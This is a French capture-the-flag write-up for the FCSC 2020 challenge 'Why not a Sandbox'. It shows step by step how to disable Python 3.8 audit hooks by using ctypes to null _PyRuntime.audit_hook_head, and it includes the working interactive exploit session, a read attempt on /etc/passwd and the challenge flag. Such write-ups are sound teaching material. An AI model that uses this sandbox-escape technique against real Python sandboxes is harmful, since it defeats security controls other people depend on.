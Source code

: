 ```yaml
---
title: "[FR] Write-up FCSC 2020 : Why not a Sandbox"
date: 2020-05-04T18:00:00+02:00
draft: false
tags:
- CTF
- FCSC
- FCSC 2020
---
```


# I - Intro
Le challenge se compose d'un interpréteur Python 3.8.2 avec lequel nous pouvons interagir via une simple connexion TCP obtenable avec `netcat`. Cet interpréteur modifié va lever une exception lorsque certaine actions sont effectuées. Il est donc impossible d'appeler `os.system` pour obtenir un shell ou d'ouvrir un fichier avec `open()`. Le but est donc d'appeler la fonction `print_flag()` qui a été ajoutée à la librairie principale de Python, qui peut être accédée via le module `ctypes`. Cependant celle-ci va aussi lever une exception.
```
$ nc challenges1.france-cybersecurity-challenge.fr 4005
Arriverez-vous à appeler la fonction print_flag ?
Python 3.8.2 (default, Apr  1 2020, 15:52:55)
[GCC 9.3.0] on linux
>>> import os
Exception ignored in audit hook:
Exception: Action interdite
Exception: Module non autorisé
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
Exception: Action interdite
>>> open("/etc/passwd", "r")
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
Exception: Action interdite
>>> import ctypes
>>> ctypes.pythonapi.print_flag()
Exception: Nom de fichier interdit
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python3.8/ctypes/__init__.py", line 386, in __getattr__
    func = self.__getitem__(name)
  File "/usr/lib/python3.8/ctypes/__init__.py", line 391, in __getitem__
    func = self._FuncPtr((name_or_ordinal, self))
Exception: Action interdite
```

# II - Les audit hooks
Les exceptions n'apparaissent pas toutes de la même manière mais celle de `import os` indique `Exception ignored in audit hook`. L'exception est donc générée dans un audit hook. Les audit hooks sont une nouvelle fonctionnalité de Python 3.8 permettant d'exécuter une certaine fonction avant que certain évènements se produisent (Par exemple : import d'un module, appel d'une fonction, etc.). Ceux-ci sont définis dans le standard [PEP 578](https://www.python.org/dev/peps/pep-0578/).

Pour créer un audit hook, la fonction `PySys_AddAuditHook()` doit être appelée, celle-ci va ajouter le pointeur de fonction passé en paramètre dans une liste chaînée commençant par le [membre `audit_hook_head` de la structure `_PyRuntimeState`](https://github.com/python/cpython/blob/62f75fe3dd138f72303814d27183aa469eefcca6/Include/internal/pycore_runtime.h#L105). Cette structure est utilisée par l'objet global principal de l'interpréteur Python : [`_PyRuntime`](https://github.com/python/cpython/blob/252346acd937ddba4845331994b8ff4f90349625/Python/pylifecycle.c#L66).

Le but serait donc de mettre le pointeur `_PyRuntime.audit_hook_head` à `NULL` de manière à *"détruire"* la liste chaînée et rendre inefficace tous les audit hooks. Pour cela il faut connaître l'offset du membre `audit_hook_head` par rapport à `_PyRuntime`. La manière la plus simple pour le retrouver est de compiler exactement la même version de Python que celle du serveur avec le `CFLAGS` `-g` de manière à produire un binaire contenant les informations `DWARF`. Nous pouvons ensuite ouvrir cet interpréteur et y attacher un débugueur pour connaître l'offset voulu.

```
(gdb) print &(_PyRuntime.audit_hook_head)
$1 = (_Py_AuditHookEntry **) 0x788e70 <_PyRuntime+1456>
```

Donc `&_PyRuntime + 1456 == &(_PyRuntime.audit_hook_head)`.

# III - `ctypes`

`ctypes` est le module Python permettant d'utiliser des bibliothèques natives, celui-ci n'a pas été entièrement blacklisté par l'audit hook, nous pouvons donc nous servir de certaines de ses fonctions permettant des actions plutôt utiles.

`ctypes._CData.from_address()` : `ctypes` possède des classes, toutes héritantes de `_CData`, représentant différents types de données en C. On peut donc utiliser `ctypes.c_uint64.from_address(0x12345678)` pour lire un entier non signé de 64 bits à l'adresse `0x12345678`. Cette fonction permet donc d'effectuer des *arbitrary reads* dans l'espace d'adresse de python.

`ctypes.memset()` : celle-ci est plutôt claire, il s'agit de la fonction analogue à `memset(3)` en C, on peut donc s'en servir pour effectuer des *arbitrary writes* dans l'espace d'adresse de python.

`ctypes.addressof()` : Cette fonction retourne l'adresse d'un objet python, on peut donc s'en servir pour obtenir l'adresse de `_PyRuntime`. Il faut bien noter que celle-ci revoit l'adresse de l'objet Python, or `ctypes.pythonapi._PyRuntime` retournera un `_FuncPtr` permettant d'encapsuler la fonction C (bon ici ce n'est pas une fonction mais le principe reste le même), il faudra donc utiliser `ctypes.c_uint64.from_address(ctypes.addressof(ctypes.pythonapi._PyRuntime))` pour lire le premier membre du `_FuncPtr` qui correspond à la vraie adresse de `_PyRuntime`.

# IV - Exploitation finale

À l'aide des informations des paragraphes II et III, nous pouvons facilement désactiver les audit hooks et donc permettre l'appel de `print_flag()` :
```
Arriverez-vous à appeler la fonction print_flag ?
Python 3.8.2 (default, Apr  1 2020, 15:52:55) 
[GCC 9.3.0] on linux
>>> import ctypes
>>> addr_obj_run = ctypes.addressof(ctypes.pythonapi._PyRuntime)
>>> ctypes.c_uint64.from_address(addr_obj_run)
c_ulong(140211617380992)
>>> addr_run = 140211617380992
>>> ctypes.c_uint64.from_address(addr_run + 1456)
c_ulong(94195313321648)
>>> hex(94195313321648)
'0x55ab8e30a6b0'
>>> ctypes.memset(addr_run + 1456, 0, 8)
140211617382448
>>> ctypes.c_uint64.from_address(addr_run + 1456)
c_ulong(0)
>>> open("")
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
FileNotFoundError: [Errno 2] No such file or directory: ''
>>> ctypes.pythonapi.print_flag
<_FuncPtr object at 0x7f858eeeadc0>
>>> ctypes.pythonapi.print_flag()
super flag: FCSC{55660e5c9e048d988917e2922eb1130063ebc1030db025a81fd04bda75bab1c3}
83
```
